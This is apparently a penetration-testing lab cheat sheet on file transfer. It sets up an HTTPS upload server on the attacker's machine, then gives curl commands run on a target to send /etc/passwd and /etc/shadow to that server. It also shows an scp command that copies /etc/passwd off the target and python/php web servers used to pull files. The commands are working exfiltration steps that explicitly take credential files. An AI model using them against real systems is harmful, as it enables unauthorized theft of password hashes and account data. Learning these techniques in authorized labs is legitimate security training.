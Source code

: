 # Web upload
1. On our machine, Start Web Server
	- `sudo python3 -m pip install --user uploadserver`
	- `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
		- create self signed cert
		- note: webserver should not host cert. create new directory to host the file
	- `mkdir https && https`
	- `sudo python3 -m uploadserver 443 --server-certificate ~/server.pem`
		- start the webserver
2. On target machine, upload files
	- `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

# Web server with Python/php
1. On target machine, host server
- `python3 -m http.server`
	- python3
- `python2.7 -m SimpleHTTPServer`
	- python2.7
- `php -S 0.0.0.0:8000`
	- php

2. On our machine, download the file
- `wget 192.168.49.128:8000/filetotransfer.txt

# SCP Upload
- If company allows SSH protocol for outbound connections
- On target,
	- `scp /etc/passwd htb-student@10.129.83.90:/home/htb-student/`
		- then give password
	- copies local file (on target) `/etc/passwd` to own machine 10.129.86.90, logging in as use htb-student, placing it in /home/htb-student